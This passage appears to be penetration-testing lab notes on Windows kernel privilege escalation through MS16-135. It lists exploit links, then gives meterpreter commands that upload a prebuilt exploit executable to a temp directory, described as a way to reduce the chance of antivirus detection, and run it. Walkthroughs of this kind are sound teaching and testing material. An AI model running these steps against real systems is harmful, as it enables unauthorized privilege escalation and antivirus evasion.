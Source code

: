 ```bash
[E]MS16-135: Security Update for Windows Kernel-Mode Drivers (3199135) - Important
[*]  https://www.exploit-db.com/exploits/40745/ -- Microsoft Windows Kernel - win32k Denial of Service (MS16-135)
[*]  https://www.exploit-db.com/exploits/41015/ -- Microsoft Windows Kernel - 'win32k.sys' 'NtSetWindowLongPtr' Privilege Escalation (MS16-135) (2)
[*]  https://github.com/tinysec/public/tree/master/CVE-2016-7255
```

- Search **`MS16-135`** in the **[windows-kernel-exploits](https://github.com/SecWiki/windows-kernel-exploits)** github repository
  - [MS16-135 exploit](https://github.com/SecWiki/windows-kernel-exploits/tree/master/MS16-135)
  - check the [41015.c](https://github.com/SecWiki/windows-kernel-exploits/blob/master/MS16-135/41015.c) `C` file to check if the code does what it's supposed to
  - in this case I will use the pre-build executable `41015.exe`

- Knowing that the specific Windows version is vulnerable to this particular exploit, proceed with the exploitation

Use the `meterpreter` access to upload the `41015.exe` file to the `temp` directory within the Windows O.S.

```bash
cd C:\\
mkdir temp
cd temp\\
# Reduce the likelihood of antivirus detection by using the temp directory

upload 41015.exe
shell
.\41015.exe 7
```

![41015.exe Privilege Escalation](.gitbook/assets/image-20230315173113966.png)



> 🧪 I have tried to copy the exploit file to my protected Windows host. Antivirus will detect the Exploit file, so pay attention.
>
> [VirusTotal Analysis](https://www.virustotal.com/gui/file/5ec6a6c9a7233a7ff68d989d830a2249e94a2784e69d5c8a593d3345da14a6b5)
>
> ![](.gitbook/assets/image-20230315173432723.png)

------

